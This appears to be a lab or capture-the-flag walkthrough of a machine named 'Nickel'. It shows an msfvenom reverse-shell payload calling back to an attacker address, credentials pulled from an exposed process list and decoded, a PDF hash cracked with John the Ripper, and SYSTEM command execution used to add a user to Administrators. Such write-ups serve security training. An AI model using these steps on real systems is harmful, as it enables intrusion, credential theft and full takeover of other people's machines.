# Nickel

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.90.99 -t full`

`nmapAutomator.sh -H 192.168.90.99 -t vulns`



### SMB \(139\)



`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.90 LPORT=443 EXITFUNC=thread -f python`

### HTTP

On port 8089, we have a dashboard:



Each of the links bring us to 169.254.109.39:33333. By going to 192.168.90.99:33333 instead, we get a Not Found response for `/list-current-deployments`.



We get a different message, however, for `/list-running-procs`.



If we send a POST request instead, we indeed see a list of running processes!



In the command line of one of the processes, we get a user's credentials.



Plugging the `-p` parameter into CyberChef, we can see that it is a Base 64 encoded password \(`NowiseSloopTheory139`\)



Using the credentials `ariah:NowiseSloopTheory139`, we can SSH into the server.





## Privilege Escalation

Using previously found credentials for `ariah`, we can access the FTP service and download a PDF file.



However, a password is required. The previously found password does not work.



Use `pdf2john.pl` to extract the hash.

`perl john-bleeding-jumbo/run/pdf2john.pl Infrastructure.pdf > Infrastructure-Hash.txt`

Use John the Ripper to crack the hash.

`john --wordlist=/usr/share/wordlists/rockyou.txt Infrastructure-Hash.txt`



The password is `ariah4168`.

Here, we find a 'Temporary Command endpoint' at `http://nickel/` that is only accessible through the remote machine.



Using Powershell, we can send a GET request to the API endpoint.

`$Resp = Invoke-WebRequest 'http://nickel/?whoami' -UseBasicParsing`

This executes `whoami`, and we can see the output below.

We have RCE as SYSTEM. However, any outgoing traffic is blocked, so we cannot spawn a second reverse shell as SYSTEM. Let's do the next best thing - adding ourselves to the `Administrators` group.

`localgroup Administrators ariah /add`



If we check the Administrators group again \(`net localgroup Administrators`\), we can see that our user `ariah` was added.



Now, we can RDP into the machine and run the command prompt as Administrator.



